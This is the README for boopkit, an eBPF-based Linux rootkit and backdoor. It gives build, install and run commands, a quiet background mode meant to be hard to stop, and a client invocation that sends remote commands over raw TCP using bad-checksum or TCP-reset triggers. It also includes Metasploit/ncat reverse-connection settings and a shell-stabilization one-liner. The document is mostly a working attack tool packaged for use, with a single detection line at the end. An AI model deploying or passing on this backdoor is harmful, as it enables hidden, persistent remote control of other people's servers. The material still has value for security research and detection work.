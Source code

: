```
================================================================

   ██████╗  ██████╗  ██████╗ ██████╗ ██╗  ██╗██╗████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗██║ ██╔╝██║╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║██████╔╝█████╔╝ ██║   ██║   
   ██╔══██╗██║   ██║██║   ██║██╔═══╝ ██╔═██╗ ██║   ██║   
   ██████╔╝╚██████╔╝╚██████╔╝██║     ██║  ██╗██║   ██║   
   ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚═╝  ╚═╝╚═╝   ╚═╝   
   Author: Kris Nóva <kris@nivenly.com> Version 1.3.0
   
   IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE 
   LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, 
   EXEMPLARY, OR CONSEQUENTIAL DAMAGES.   

   DO NOT ATTEMPT TO USE THE TOOLS TO VIOLATE THE LAW.
   THE AUTHOR IS NOT RESPONSIBLE FOR ANY ILLEGAL ACTION.
   MISUSE OF THE SOFTWARE, INFORMATION, OR SOURCE CODE
   MAY RESULT IN CRIMINAL CHARGES.
   
   Use at your own risk.

================================================================

Boopkit
Linux rootkit and backdoor. Built using eBPF.

Usage: 
boopkit [options]

Options:
-h, help           Display help and usage for boopkit.
-i, interface      Interface name. lo, eth0, wlan0, etc
-s, sudo-bypass    Bypass sudo check. Breaks PID obfuscation.
-r, reverse-conn   Attempt a reverse RCE lookup if no payload found.
-q, quiet          Disable output.
-x, reject         Source addresses to reject triggers from.

```

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.3.0.tar.gz
tar -xzf v1.3.0.tar.gz 
cd boopkit-1.3.0/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background in quiet mode.

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit -q &
```

Boopkit is now running and can be exploited using the client `boopkit-boop` command line tool.

## Client Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.2.0.tar.gz
tar -xzf v1.2.0.tar.gz 
cd boopkit-1.2.0/
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -c "$RCE"
```

# Boop Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       {                             data                              }
       {                             ....                              }
       {                             data                              }
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. This works against any Linux server running boopkit, regardless of the state of TCP services.

Use `-p` with `boopkit-boop` to only use this first vector.

⚠️ Some modern network hardware will DROP all malformed checksum packets such as the one required to exploit boopkit using this vector!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
RHOST="127.0.0.1"
RPORT="22"
LHOST="127.0.0.1"
LPORT="3535"

NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang' 
 - 'bpftool'   Required for `libbpf`
 - 'xdp-tools' Required for `libxdp`
 - 'llvm'
 - 'pcap'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### Detection with no extra tools

```dmesg | grep "bpf.*\!$"```


### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
